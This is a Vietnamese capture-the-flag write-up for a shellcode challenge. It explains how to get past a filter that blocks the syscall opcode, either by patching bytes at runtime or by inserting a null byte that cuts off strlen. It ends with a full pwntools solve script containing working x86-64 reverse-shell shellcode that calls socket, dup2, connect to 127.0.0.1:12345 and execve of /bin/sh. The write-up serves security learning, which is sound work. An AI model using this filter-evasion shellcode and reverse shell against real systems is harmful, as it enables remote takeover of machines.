




# chal3_HANDOUT

Đề bài cho ta file [shellcode](./chall/shellcode)

## Checksec



## IDA



Về cơ bản, chương trình setup rồi cho user nhập dữ liệu vào biến `s`. Sau đó kiểm tra xem có opcode `0x0F05`- `syscall` có trong input không. Nếu có thì thoát chương trình. Còn không thì chương trình sẽ đóng các `fd` rồi thực thi shellcode mà ta nhập vào.

Vậy làm sao để chúng ta có thể bypass và tạo được shell và nhập được ?

## Exploit


- Trước hết chúng ta phải bypass được hàm kiểm tra opcode của `syscall`.

  **CÁCH 1**
    - Ý tưởng của mình là sẽ ghi vào shell code của mình opcode `0x0F04` rồi khi chương trình thực thi shellcode, mình sẽ cộng byte `0x04` thành `0x05`:

    ```asm
    lea rbx, [rip + sys_call +1]
    inc byte ptr [rbx]

    sys_call:
        .byte 0x0f
        .byte 0x04
        ret
    ```
    - Từ đó khi mình cần chạy `syscall` thì chỉ cần nhập `call sys_call` thôi

  **CÁCH 2**: 

    

    - Do hàm `strlen()` sẽ dừng khi gặp byte `0` vậy nên ta chỉ cần cho byte `0` vào shellcode trước lệnh `syscall` là được. Như vậy vòng lặp for chỉ kiểm tra đến byte `0` ta thêm vào thôi.


- Tiếp đến chúng ta làm sao để có thể input và output khi chương trình đã đóng `fd`.
    
    - Ở đây mình sẽ thực hiện kĩ thuật `Reverse shell`. Tức là mình sẽ cho chương trình kết nối với `localhost` port `12345` , sau đó sử dụng `dup2()` với `sockfd` và các `fd` của `stdin`, `stdout`, `stder` để ở terminal đang listen port có thể input và output.

    - Điều khá kì diệu là hàm `dup2()` hoạt động với cả các `fd` đã đóng, vậy nên chương trình đóng cả 3 nhưng ta vẫn bypass qua được.


### Solve script

```python
#!/usr/bin/python3

from pwn import *

# p = gdb.debug("./shellcode",'''
#               b * main+228
#               c
#               ''')
p = process("./shellcode")
#p = remote("127.0.0.1",1337)
payload = asm('''
              lea rbx, [rip + sys_call +1]
              inc byte ptr [rbx]
              mov r14,rax
              mov rax,0x29 
              mov rdi,2
              mov rsi,1
              mov rdx,0
              call sys_call
              mov r14,rax 


              mov rsi,2
              mov rdi,r14
            
              dup2:
                mov rax,0x21
                call sys_call
                dec rsi
                jns dup2

              mov rdi,r14
              lea rsi,[rip + sock_addr]
              mov rdx,16
              mov rax,0x2a
              call sys_call

              movabs rbx,29400045130965551 
              push rbx
              mov rdi,rsp
              mov rax,0x3b
              xor rsi,rsi
              xor rdx,rdx
              call sys_call

              sys_call:
                .byte 0x0f
                .byte 0x04
                ret
              sock_addr:
                .quad 0x100007F39300002
                .quad 0
              
              ''',arch = 'amd64')
p.sendline(payload)

p.interactive()

```

#### Solve script2: [newsolve.py](./chall/newsolve.py)


Bây giờ ta listen port `12345` và thực thi chương trình thôi:




